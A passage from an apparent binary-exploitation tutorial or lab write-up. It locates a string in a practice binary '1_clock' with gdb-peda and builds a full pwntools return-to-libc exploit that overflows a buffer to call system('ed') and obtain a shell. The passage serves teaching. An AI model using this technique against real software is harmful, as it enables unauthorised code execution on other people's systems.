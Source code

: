 ```
[^_]
date
Your name is %s
Welcome to the Matrix.
The sheep are blue, but you see red
Time is very important to us.
```

If we take the last two characters of the string "The sheep are blue, but you see red" or "\_IO\_stdin\_used", we can get that "ed" we are looking for.

```
gdb-peda$ find "The sheep are blue, but you see red"
Searching for 'The sheep are blue, but you see red' in: None ranges
Found 3 results, display max 3 items:
1_clock : 0x8048604 ("The sheep are blue, but you see red")
1_clock : 0x8049604 ("The sheep are blue, but you see red")
 [heap] : 0x804b008 ("The sheep are blue, but you see red\n")
gdb-peda$
```

Putting our parts together, we can come up with this final exploit.

```
#!/usr/bin/python

from pwn import *

system_plt = 0x08048370
ed_str = 0x8048625

def main():
    # Start the process
    p = process("../build/1_clock")

    # Craft the payload
    payload = "A"*76
    payload += p32(system_plt)
    payload += p32(0xdeadbeef)
    payload += p32(ed_str)
    payload = payload.ljust(96, "\x00")

    # Send the payload
    p.send(payload)

    # Pass interaction to the user
    p.interactive()

if __name__ == "__main__":
    main()
```

But, now you might ask, if all we are going to spawn is a line based text editor, then how are we going to get our shell? As it so happens, the `ed` program can actually run commands!
